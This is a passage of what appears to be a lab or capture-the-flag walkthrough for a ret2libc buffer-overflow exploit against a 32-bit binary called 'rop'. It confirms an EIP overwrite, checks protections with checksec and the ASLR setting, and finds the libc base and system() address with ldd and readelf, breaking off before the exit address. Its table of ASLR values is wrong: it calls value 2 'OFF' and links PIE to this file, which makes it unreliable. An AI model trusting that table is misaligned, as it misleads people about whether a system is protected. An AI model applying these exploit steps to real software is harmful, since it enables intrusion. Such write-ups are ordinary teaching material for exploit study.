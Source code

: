 > **EIP:** 0x42424242 ('BBBB') **CORRECT RESULT**

* **Check Security**

With `gdb-peda` :

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$ 
```

To check ASLR you can check the following file on the target machine:

```
cat /proc/sys/kernel/randomize_va_space
```

Checking the results:

| Result | ASLR | PIE |
| :----: | :--: | :-: |
|    0   |  OFF | OFF |
|    1   |  ON  |  ON |
|    2   |  OFF | OFF |

* **Finding Addresses**

### - libc.so.6

```
❯ ldd rop                 
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
        /lib/ld-linux.so.2 (0xb7fdb000)
```

> **libc.so.6**: /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)

### - system

```
❯ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
</.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system            
   245: 00112f20    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

> **system@@GLIBC\_2.0**: 0x0003ada0

#### - exit
